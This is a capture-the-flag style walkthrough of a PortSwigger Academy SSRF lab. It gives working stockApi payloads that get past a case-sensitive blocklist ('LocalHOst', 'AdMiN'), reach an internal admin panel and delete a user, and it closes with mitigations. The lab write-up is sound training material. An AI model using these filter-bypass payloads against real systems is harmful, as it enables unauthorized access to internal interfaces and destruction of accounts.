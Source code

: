 
<p align="center">
  <img src="./screenshots/ssrf_logo_.png" alt="ssrf_logo"/>
</p>

---

- 🎯 **Target:** SSRF Lab - Basic SSRF against another back-end system
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 23.04.2025
- 📊 **Difficulty:** PRACTITIONER
- 📁 **Category:** Web - SSRF (`Case-Insensitive Bypass`)

---

> The `SSRF` vulnerability is contained in the `check stock` function which fetches data from an `internal system`:

![stock_check_function](./screenshots/stock_check_function.png)

---
## 🔍 Request interception

> The first thing we do - is intercept the `check stock` function request and send it to the `repeater` of the `BurpSuite` tool:

```html 

POST /product/stock HTTP/2
Host: 0a8f00190491594a807cad2700ca00c2.web-security-academy.net
Cookie: session=0Y0d9JLcHWAp6DegCuNPjTd0jINxBfJD
Content-Length: 107
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a8f00190491594a807cad2700ca00c2.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8f00190491594a807cad2700ca00c2.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1

```

> For ease of working with the request body in URL encoding, I use the `Hackvertor` extension:

```bash

stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=3&storeId=1</@urlencode>

```

> The `check stock` function makes a request to the resource `stock.weliketoshop.net:8080` using the route `/product/stock/check`, which executes the function to check the
> availability of the product `productId` in the selected location `storeId`.

> The developers on the server side have implemented some protection against `SSRF attacks` which filters requests to internal system resources in the event of a request address being spoofed.

> If I try to replace the request with `http://localhost` I get the standard error:

```bash

stockApi=<@urlencode>http://localhost</@urlencode>

```

> Result:

![localhost_error](./screenshots/localhost_error.png)

> The essence of the current protection is to filter such phrases in the request as `localhost`, `admin`, etc. The only problem is that this filter does not take into account
> the case of characters, which means that I can try to `change the case` of some characters in the word `localhost` to `LocalHOst` for example and send a request to the server:

```bash

stockApi=<@urlencode>http://LocalHOst</@urlencode>

```

> Result:

![LocalHOst_answer](./screenshots/LocalHOst_answer.png)

> Filter bypass with case-shifting worked. The server returned a response with code 200 and results in the form of an HTML page. Nice.

> Next we need to get to the administrator interface which is located at the path `/admin`. To do this, by analogy, I change the case of the characters in the word `admin` to `AdMiN` and try to send a request:

```bash

stockApi=<@urlencode>http://LocalHOst/AdMiN</@urlencode>

```

> Result:

![AdMiN_answer](./screenshots/AdMiN_answer.png)

![admin_panel](./screenshots/admin_panel.png)

> The server returned a response with the code `200` again. Bypassing the server's security features by changing the case of characters in the request worked.
> I got access to the `admin panel`.

---

> To solve this problem, you need to send a request to delete the user `carlos`:

```bash

stockApi=<@urlencode>http://LocalHOst/AdMiN/delete?username=carlos</@urlencode>

```

> Result:
![solved_lab](./screenshots/solved_lab.png)

> Lab complete.

---
## 🧠 Conclusion

> To protect against such SSRF attack techniques with filter bypassing you can do the following:

> `1)` Before comparing incoming requests bring the URLs to the same type - `URL normalization`.
> Example in python:

```python

urllib.parse.urlparse(user_input_url.lower())

```
> `2)` Use `DNS resolving` with IP address checking. That is, perform a recursive request by domain name and check the received IP address with `whitelist`

> `3)` Prohibit any requests to internal local system resources in principle by isolating the network.
